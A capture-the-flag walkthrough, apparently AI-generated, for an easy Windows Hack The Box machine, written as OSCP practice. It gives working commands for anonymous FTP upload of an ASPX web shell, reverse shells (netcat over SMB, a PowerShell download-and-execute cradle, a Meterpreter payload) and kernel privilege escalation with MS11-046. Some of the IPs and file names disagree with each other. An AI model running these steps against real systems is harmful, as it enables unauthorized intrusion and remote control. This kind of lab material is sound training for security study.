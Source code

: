 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)


## 🧭 Reconnaissance

**Full port scan:**
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

**Targeted version/service scan:**
```bash
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```

---

## 🌐 [Web](HTTP) & [FTP](FTP) Enumeration

**Check FTP access (Anonymous allowed):**
```bash
ftp 10.10.10.5
# Login: anonymous / [blank]
```

**Identify if FTP root = Web root:**
```bash
# Upload test file or observe files:
put test.html
# Check in browser: http://10.10.10.5/test.html
```

**Check headers for ASP.NET support (e.g. using Burp):**
```
X-Powered-By: ASP.NET
```

---

## 📥 Initial Foothold (Webshell Upload)

**Copy a basic ASPX web shell:**
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

**Upload via FTP:**
```bash
ftp> put cmd.aspx
```

**Access webshell:**
```
http://10.10.10.5/cmd.aspx
```

**Execute command (example):**
```
whoami
```

---

## 🐚 Reverse [Shell](SSH) (Multiple Methods)

### Option 1: Netcat

**Start SMB share:**
```bash
mkdir smb
cp /usr/share/windows-binaries/nc.exe smb/
sudo smbserver.py share smb
```

**Start listener:**
```bash
nc -lnvp 443
```

**From webshell:**
```cmd
\\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443
```

---

### Option 2: Nishang (PowerShell TCP)

**Edit and host reverse shell:**
```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 smb/
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443" >> smb/Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

**From webshell:**
```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Invoke-PowerShellTcp.ps1')"
```

---

### Option 3: Meterpreter

**Generate payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=666 -f aspx -o met_rev_666.aspx
```

**Upload via FTP:**
```bash
ftp> put met_rev_666.aspx
```

**Start handler:**
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.13
set LPORT 666
run
```

**Trigger callback:**
```
curl http://10.10.10.5/met_rev_443.aspx
```

---

## 🔧 Privilege Escalation

```
getuid
```

```
systeminfo
```

**Check .NET versions:**
```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

**Use [Watson](https://github.com/rasta-mouse/Watson) (uploaded via SMB):**
```cmd
\\10.10.14.14\share\Watson.exe
```

https://github.com/abatchy17/WindowsExploits

https://www.exploit-db.com/exploits/40564

**Pick MS11-046 (example):**
```bash
wget https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe
```

**Upload and run:**
```cmd
C:\inetpub\wwwroot\MS11-046.exe
```

**Confirm SYSTEM shell:**
```cmd
whoami
```

---

## 🎯 Flags

```cmd
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

Let me know if you want this exported as a Markdown file or want to move on to another box! 💥